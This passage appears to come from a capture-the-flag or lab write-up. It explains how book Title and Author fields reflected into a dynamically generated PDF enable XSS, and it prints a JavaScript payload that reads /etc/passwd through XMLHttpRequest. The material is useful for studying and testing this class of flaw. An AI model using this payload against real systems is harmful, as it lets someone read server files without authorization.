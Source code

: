 ![](images/uploadworked.png)

The content of the Collections PDF changes with the books available on the platform this shows that its a `dynamically generated pdf`   
We clearly have a `Cross Site Scripting (XSS)` vulnerability because our input is directly reflected in the dynamically generated pdf

## Exploit
I googled for `dynamically generated pdf xss` and found this great blog by `Noob Ninja`    
> [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)   

He talks about leveraging XSS in dynamically generated PDFs to read local files using JavaScript   
We can use the payload mentioned in the blog in the Title and the Author field while uploading a book as both of them are reflected in the PDF
```js
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

![](images/etcpasswdsub.png)

